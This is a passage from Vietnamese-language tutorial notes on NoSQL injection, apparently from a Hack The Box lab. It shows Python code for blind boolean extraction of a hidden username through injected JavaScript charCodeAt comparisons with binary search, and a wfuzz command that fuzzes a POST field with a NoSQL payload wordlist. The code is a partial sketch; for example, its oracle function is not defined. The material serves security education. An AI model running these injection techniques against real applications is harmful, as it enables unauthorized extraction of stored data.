 5. **Tối ưu hóa với tìm kiếm nhị phân**:
   - Sử dụng tìm kiếm nhị phân để giảm số lượng yêu cầu, bằng cách chia đôi phạm vi ký tự mỗi lần dò ký tự tiếp theo.
   
   **Code cho tìm kiếm nhị phân**:
   ```python
   # Tìm kiếm nhị phân
   num_req = 0
   username = "HTB{"
   i = 4  # Bắt đầu từ ký tự thứ 5

   while username[-1] != "}":
       low, high = 32, 126  # Phạm vi ký tự ASCII

       while low <= high:
           mid = (low + high) // 2
           if oracle('this.username.startsWith("HTB{") && this.username.charCodeAt(%d) > %d' % (i, mid)):
               low = mid + 1
           elif oracle('this.username.startsWith("HTB{") && this.username.charCodeAt(%d) < %d' % (i, mid)):
               high = mid - 1
           else:
               username += chr(mid)
               break

       i += 1

   print("Username:", username)
   print("Requests:", num_req)
   ```

6. **So sánh kết quả**:
   - **Tìm kiếm tuyến tính** có thể yêu cầu đến hàng ngàn yêu cầu, trong khi **tìm kiếm nhị phân** chỉ yêu cầu một phần nhỏ số yêu cầu và thời gian hoàn thành nhanh hơn đáng kể.

---
# 9. Các công cụ hỗ trợ kiểm tra và khai thác NoSQL Injection

1. **Fuzzing với Wordlists**:
   - **Fuzzing** là kỹ thuật kiểm tra dạng black-box, trong đó người kiểm thử đưa vào một lượng lớn dữ liệu để xem liệu có gây ra lỗi hay không.
   - Đối với NoSQL Injection, ta sử dụng các **wordlists** chứa các payload tiềm năng để phát hiện phản hồi khác thường từ máy chủ.
   - **Ví dụ với `wfuzz`**:
     ```bash
     wfuzz -z file,/usr/share/seclists/Fuzzing/Databases/NoSQL.txt -u http://127.0.0.1/index.php -d '{"trackingNum": FUZZ}'
     ```
     - `-z file`: chỉ định wordlist.
     - `-u`: URL mục tiêu.
     - `-d`: dữ liệu POST (đặt `FUZZ` vào vị trí `trackingNum` để thử các payload từ wordlist).
   - Trong kết quả, nếu có payload nào đó khiến phản hồi từ máy chủ thay đổi đáng kể (ví dụ: độ dài trả về lớn hơn), điều này ám chỉ rằng payload đó có thể thành công, cần kiểm tra kỹ hơn.
